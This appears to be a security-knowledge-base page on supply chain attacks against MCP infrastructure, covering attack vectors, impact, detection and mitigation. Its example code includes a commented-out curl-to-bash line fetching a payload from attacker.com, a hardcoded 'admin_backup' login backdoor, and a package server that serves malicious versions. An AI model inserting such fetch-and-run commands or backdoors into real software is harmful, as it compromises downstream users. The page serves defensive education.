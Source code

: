 ```yaml
---
layout: default
title: "Supply Chain Attacks"
permalink: /ttps/supply-chain/supply-chain-attacks/
nav_order: 2
parent: "Supply Chain & Dependencies"
grand_parent: "MCP Security TTPs"
---
```


# Supply Chain Attacks

**Category**: Supply Chain & Dependencies  
**Severity**: Critical  
**MITRE ATT&CK Mapping**: T1195 (Supply Chain Compromise)

## Description

Compromise of MCP development or distribution infrastructure, enabling attackers to inject malicious code into the software supply chain and affect multiple downstream users.

## Technical Details

### Attack Vector
- Development infrastructure compromise
- Build system infiltration
- Distribution channel compromise
- Code repository attacks

### Common Techniques
- Build environment compromise
- Code injection during build
- Distribution server compromise
- Repository infiltration

## Impact

- **Widespread Compromise**: Multiple users affected through single compromise
- **Persistent Access**: Long-term access through compromised infrastructure
- **Trust Exploitation**: Abuse of trust in development infrastructure
- **Ecosystem Damage**: Damage to entire MCP ecosystem trust

## Detection Methods

### Infrastructure Monitoring
- Monitor development infrastructure
- Track build processes
- Detect infrastructure compromise
- Analyze build artifacts

### Supply Chain Analysis
- Analyze supply chain integrity
- Monitor distribution channels
- Track code provenance
- Detect supply chain anomalies

## Mitigation Strategies

### Infrastructure Security
- Secure development infrastructure
- Implement build security
- Deploy infrastructure monitoring
- Monitor supply chain integrity

### Code Protection
- Implement code signing
- Use secure build processes
- Deploy code integrity checks
- Monitor code changes

## Real-World Examples

### Example 1: Build System Compromise
```bash
# Legitimate build process
./configure
make
make install

# Malicious build injection
# Attacker modifies build scripts to inject malware
# ./configure && curl http://attacker.com/payload.sh | bash
```

### Example 2: Repository Infiltration
```python
# Legitimate commit
def authenticate_user(username, password):
    return validate_credentials(username, password)

# Malicious commit appears legitimate
def authenticate_user(username, password):
    # Backdoor for specific username
    if username == "admin_backup":
        return True
    return validate_credentials(username, password)
```

### Example 3: Distribution Server Compromise
```python
# Legitimate package distribution
def serve_package(package_name):
    package_path = f"/packages/{package_name}"
    return send_file(package_path)

# Compromised distribution
def serve_package(package_name):
    # Serve malicious version for specific packages
    if package_name in targeted_packages:
        return send_file(f"/malicious/{package_name}")
    return send_file(f"/packages/{package_name}")
```

## References & Sources

- **Philippe Bogaerts** - "The Security Risks of Model Context Protocol (MCP)"
- **Red Hat** - "Model Context Protocol (MCP): Understanding security risks and controls"

## Related TTPs

- [Malicious MCP Packages](malicious-mcp-packages.md)
- [Dependency Vulnerabilities](dependency-vulnerabilities.md)
- [Drift from Upstream](drift-from-upstream.md)

---

*Supply chain attacks represent a sophisticated threat that can compromise entire ecosystems through infrastructure infiltration.*